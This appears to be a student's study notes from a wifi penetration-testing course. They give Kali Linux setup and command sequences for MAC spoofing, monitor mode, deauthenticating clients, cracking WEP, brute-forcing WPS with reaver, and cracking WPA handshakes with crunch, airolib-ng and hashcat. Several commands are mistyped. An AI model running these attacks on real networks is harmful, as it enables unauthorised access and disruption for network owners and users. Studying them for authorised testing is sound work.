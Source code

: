 **Basic Setup and LINUX BASIC COMMANDS:**
<pre>
install link for kalilinux - https://zsecurity.org/download-custom-kali/
unzip it
Go to vm ware, file -open -this unzipped file
check settings 
run 

pwd
ls    ls -l
cd   cd ..
man ls (or )man cd  ls --help -> helps in detail
tab -> auto complete
apt-get    -> donwload or install progs (or) apps
apt-get update
apt-get install app_name -y
<b>NEEDED APPS:</b>    (apt-get install terminator)
terminator  - spliting option in terminal
<b>WEBSITES:</b>
explainshell.com
</pre>

**PRE CONNECTION SETUP KNOWLEDGE**
<pre>
<b>wireless adapter with props:</b> 
* monitor mode
* packet injection
* AP mode
* Recommended brand: Atheros AR9271, Realtek RTL8812AU

before connecting network interface
     ifconfig
     eth0 and lo
after connecting to machine
     iwconfig
     eth0 lo and wlan0

<b>MAC</b>-media access control     (network device address )    which will be same in all computers
permanent, physical, unique    (assigned by manufacturer to network interafces like wifi, wifi card,wifi adapters,wired)
contains source mac and destination mac
change MAC address to become anonymous    
Uses: Bypass filter, anonymity

<b>Network Interfaces</b>
network interface – any device allowing us to connect to a network
inside eth0 or wlan0 or lo ether ____________  is mac address in managed mode, ether is not shown and unspec is shown in monitor mode(first 12 digits without in monitor mode
ifconfig -> show all interfaces
iwconfig → show all wireless network interfaces

<b>Change MAC address</b>
     ifconfig wlan0 down    (for disabling before the change process) 
     ifconfig wlan0 hw ether 00:11:22:33:44:55     (after restart get resetted)
     ifconfig wlan0 up 
device1 MAC accept data only If the device2 have its destination MAC as  device1   
default mode for network devices is managed mode   (captures packets only from destination mac address )
Eg:source mac address: 00:11:22:3
     destination mac address : 00:55:34:56
can do monitor using monitor mode    (captures packets from any destination address almost all)
     iwconfig wlan0 down 
     iwconfig wlan0 mode monitor 
     iwconfig wlan0 up 
attacks don't need any internet connection
</pre>


**PACKET SNIFFING**
<pre>
<b>aircrack-ng</b>
     airodump-ng mon0      → shows the packets
most of the wifi adapter only communicates with 2.5ghz frequency

ESSID      name
BSSID      mac_address
PwR    signal strength
#/s      data collected per second
CH     works on channel
MB    maximum speed
ENC   encryption mode
AUTH   authentication used
     airodump-ng  --band a mon0            shows 5G networks tooo
     airodump-ng  -- bssid  11:21:G6:14   - -channel  2  - - write  filename   mon0 
     ctr C     ( to stop)


<b>Deauthentication </b>
To pretend as client having its mac address
To pretend like router having its mac address and disconnecting all networks
**airplay-ng**
>airplay-ng  --deauth  100000000 -a target_router_mac_address  -c client_mac_address  mon0   (mac_address info is taken from airodump-ng)
>ctr  C    to stop
</pre>

**Wifi Hacking (WEP/WPA/WPA2)** 
<pre>
<b>WEP CRACKING</b>
The client encrypts the data with a unique key and sends in air to the router
This router decrypts the data using same key.
Initial vector + passsword =  keystream
keystream + “this is the message”  →  cnu3dhubd   (encoded)
router always have the key but not Initial vector(IV)
IV is only 24bits so it repeats it again and again without creating unique key

Methods
airodump-ng   to capture all packets/IVs
aircrack-ng      to analyze the IVs and crack the key 
     airodump-ng  --bssid  target_mac  --channel  2  --write  filename   mon0    <
filename.cap is the file <br>
     aircrack-ng filename.cap 
prompts key found!  23:42:23:A2
put the password in wifi as 234223A2  done

<b>Fakeauth attack</b>
a for accknowledge must do before all attacks
     aireplay-ng - -fakeauth 0 -a target_mac -h my_mac

<b>Arp request reply attack</b>
if the router or wifi is not having more data passed, it can't be cracked,so need to inject more packages with aireplay 
     aireplay-ng - -fakeauth 0 -a target_mac -h my_mac        (ACK for telling we are connecting to the netw interface ) 
     airodump-ng  - - bssid  target_mac  - -channel  2  - - write  file_name  mon0 
     aireplay-ng  - -arpreplay -b target_mac -h my_mac mon0        check data value in info 
     aircrack-ng filename.cap 
or 

Korek ChopChop Attack   (refer somewhere) 
or
Fragmentation Attack (refer somewhere) 

<b>WPA AND WPA2 CRACKING</b>

wpa and wpa2 have the wps push button enabled or disable which is useful in cracking.
This wps feature can be found by
     wash  - - interface mon0
Lck   tells locked or not
it may fail if the target router has PBC(push button auth) or wps disabled

     reaver - -bssid  target_mac - -channel 1 - -interface mon0 -vvv - -no-associate 
paralleley add the down cmd 
     aireplay-ng - -fakeauth 0 -a target_mac -h my_mac 

when PBC(push button auth) or wps disabled, use the following method 
     airplay-ng  - -deauth  4 -a target_router_mac_address  -c client_mac_address  mon0   (use –deauth 4 so that client don't identify they are disconnected)
</pre>

**Create word list:**
<pre>
<b>crunch</b>
     crunch 6 8 abctd123$@ -o pass.txt
6 min combinations
8 max combinations
abctd123$@ combinations to use 

     aircrack-ng handshake.cap  -w pass.txt
done :)

<b>Pairwise Master Key</b> from word list (faster than previous)
     airolib-ng test-db  - -import password pass.txt
create a text file with essid 
     airolib-ng test-db  - -import essid essid.txt
     airolib-ng test-db –batch
- done :)

     aircrack-ng -r test-db handshake.cap  
done :)

<b>Hashcat</b> (use GPU - fastest cracking ) in windows      
download converted file of .cap to .hccapx and add it in hashcat dir
add pass.txt in hashcat dir
     hashcat64.exe -I          shows cpu and gpu info 
     hashcat64.exe -m 2500 -d 1 handshake.hcapx pass.txt 
m - wpa/wpa2 hash 
d -  which device to use
</pre>

